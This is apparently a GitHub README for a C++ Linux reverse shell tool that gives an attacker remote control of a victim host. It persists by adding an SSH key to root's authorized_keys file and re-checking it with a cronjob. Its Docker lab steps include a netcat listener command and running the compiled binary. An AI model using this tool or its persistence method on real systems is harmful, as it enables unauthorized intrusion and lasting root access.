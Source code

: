 # SRSFL
Simple Reverse Shell For Linux written is a minimalist yet powerful tool designed for remote access to Linux systems. Written in C++.

* Reverse Shell: SRSFL enables remote access to a target Linux system by establishing a reverse shell connection. This allows an attacker to control the victim system remotely.

* Persistence: SRSFL ensures persistence on the target system by adding an SSH key to the root user's authorized_keys file and checking its existence every minute using a cronjob. This ensures that even if the system is restarted, the attacker can regain access without the need for manual intervention.

### Setup:

(`docker-compose up -d`)

### Instruction:

(`./setup.sh`) to insert attacker ssh key and ip.

(`make`) to compile the reverse shell binary.

(`docker exec -it attacker_container /bin/bash`) to get shell on attack container.

and then:
(`nc -lvp 1234`) to enable the listener.

(`docker exec -it victim_container /bin/bash`) shell on victim container, to turn on reverse shell binary.

(`cd code; ./reverseShell`) - to run reverse shell.
